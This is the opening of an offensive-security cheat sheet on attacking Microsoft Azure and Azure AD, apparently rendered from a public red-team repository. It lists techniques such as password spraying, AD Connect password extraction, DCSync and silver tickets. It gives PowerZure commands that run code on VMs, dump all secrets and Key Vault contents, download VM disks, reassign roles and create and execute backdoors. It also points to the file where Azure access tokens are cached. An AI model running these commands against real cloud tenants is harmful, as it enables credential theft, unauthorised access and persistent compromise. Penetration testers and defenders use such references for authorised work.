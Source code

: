 # Azure

## Summary

* [Tools](#tools)
* [Azure Architecture](#azure-architecture)
* [Azure Storage Account - Access](#azure-storage-account----access)
* [Azure AD vs Active Directory](#azure-ad-vs-active-directory)
* [Azure AD - Enumeration](#azure-ad---enumeration)
* [Azure AD - Password Spray](#azure-ad---password-spray)
* [Azure AD - Convert GUID to SID](#azure-ad---convert-guid-to-sid)
* [Azure AD - Sign in with a service principal](#azure-ad---sign-in-with-a-service-principal)
* [Azure AD Connect - Password extraction](#azure-ad-connect---password-extraction)
* [Azure AD Connect - MSOL Account's password and DCSync](#azure-ad-connect---msol-accounts-password-and-dcsync)
* [Azure AD Connect - Seamless Single Sign On Silver Ticket](#azure-ad-connect---seamless-single-sign-on-silver-ticket)
* [Azure AD - ADFS Federation Server ~Cloud Kerberos](#azure-ad---adfs-federation-server-cloud-kerberos)
* [Azure AD - Persistence via Automation accounts](#azure-ad---persistence-via-automation-accounts)
* [Azure VM - Execute command as NT SYSTEM with Contributor right](#azure-vm---execute-command-as-nt-system-with-contributor-right)
* [Office365 - Enumerating Users](#office365---enumerating-users)
* [References](#references)

## Tools

:warning: 16 apr 2019 : BloodHound does not support any analysis with AzureAD.    
:warning: Tokens for Azure are cached in `C:\Users\[Name]\.Azure\accessTokens.json`

* **PowerZure** - 

* **PowerZure** - 
    ```powershell
    require az module !
    $ git clone https://github.com/hausec/PowerZure
    $ ipmo .\PowerZure
    $ Set-Subscription -Id [idgoeshere]

    # Reader
    $ Get-Runbook, Get-AllUsers, Get-Apps, Get-Resources, Get-WebApps, Get-WebAppDetails

    # Contributor
    $ Execute-Command -OS Windows -VM Win10Test -ResourceGroup Test-RG -Command "whoami"
    $ Execute-MSBuild -VM Win10Test  -ResourceGroup Test-RG -File "build.xml"
    $ Get-AllSecrets # AllAppSecrets, AllKeyVaultContents
    $ Get-AvailableVMDisks, Get-VMDisk # Download a virtual machine's disk

    # Owner
    $ Set-Role -Role Contributor -User test@contoso.com -Resource Win10VMTest
    
    # Administrator
    $ Create-Backdoor, Execute-Backdoor
    ```
